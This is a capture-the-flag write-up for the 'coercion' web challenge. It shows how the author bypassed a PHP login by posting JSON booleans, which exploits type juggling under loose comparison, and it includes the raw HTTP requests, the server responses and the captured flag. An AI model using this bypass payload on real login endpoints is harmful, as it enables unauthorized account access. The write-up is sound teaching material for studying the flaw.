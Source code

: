 # Challenge Name: coercion


![date](https://img.shields.io/badge/date-26.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-150-blue.svg)  


## Description

We've designed this web application to be a bit tricky, so see if you can find the flag hidden in our code. Good luck!

[https://ideh-coercion.chals.io](https://ideh-coercion.chals.io)

**Author** : c3p0d4y

## Detailed solution

Checking our web app 

![image](https://user-images.githubusercontent.com/72421091/221641857-45fb86fb-0385-4911-bb8f-ad5b08be4fae.png)

We have a login page with a script code for sending a post request to login.php using AJAX with username and password in a json format

```js
<script>
$(document).ready(function(){
    $("#result").hide();
    $('#login_submit').click(function()
    {
        var formData = JSON.stringify($("#login").serializeArray());
        $.ajax({
            type: "POST",
                url: "login.php",
                dataType: "json",
                data: '{"username": "' + $('#uname').val() + '", "password" : "' + $('#password').val() + '"}',
                contentType: 'application/json',
                cache:false,
                success : function(result) {
                        console.log(result);
                    $("#login-form").hide();
                    $("#result").show();
                    if(result.status === "success" ){
                        $('#message').html(result.message);
                        $('#message').addClass('alert alert-success');
                                                              } else {
                        $('#message').html(result.message);
                        $('#message').addClass('alert alert-danger');
                    }

                }
        });
        return false; 
    });
});
</script>
```
Quick check for login and response

```http
POST /login.php HTTP/1.1
Host: ideh-coercion.chals.io
Connection: close
Content-Length: 43
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/json
Origin: https://ideh-coercion.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ideh-coercion.chals.io/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username": "admin", "password" : "admin"}
```

```http
HTTP/1.1 200 OK
Date: Mon, 27 Feb 2023 17:46:03 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Content-Length: 61
Connection: close
Content-Type: text/html; charset=UTF-8

{"status": "error", "message":"Invalid username or password"}
```
We need to find a way to bypass login

Php coercion or type juggling deal badly when if you want to combine different data types together. It's has a known vulnerability called Php type juggling when loose comparisons "=="

More Details : 
- https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
- https://www.php.net/manual/en/language.types.type-juggling.php

![image](https://user-images.githubusercontent.com/72421091/221639083-1ff898ed-3f37-4d8d-859e-cd57c4b2d3a2.png)

When a string is being coerced to boolean it give as true 

```
"45X"   --> true      // not numeric string, fall back to bool
```

It's possible that our app has a test case for login with loose comparisons "==" and string values. 

Let's check what happens if we sent true for username and password

```http
POST /login.php HTTP/1.1
Host: ideh-coercion.chals.io
Connection: close
Content-Length: 37
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/json
Origin: https://ideh-coercion.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ideh-coercion.chals.io/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username": true, "password" : true}
```

```http
HTTP/1.1 200 OK
Date: Mon, 27 Feb 2023 17:47:31 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Length: 98
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":"success","message":"Successfully authenticated","flag":"IDEH{Type_Ju9G11ng_CH411En93}"}
```

We were able to bypass login check and get our flag


## Flag

```
IDEH{Type_Ju9G11ng_CH411En93}
```

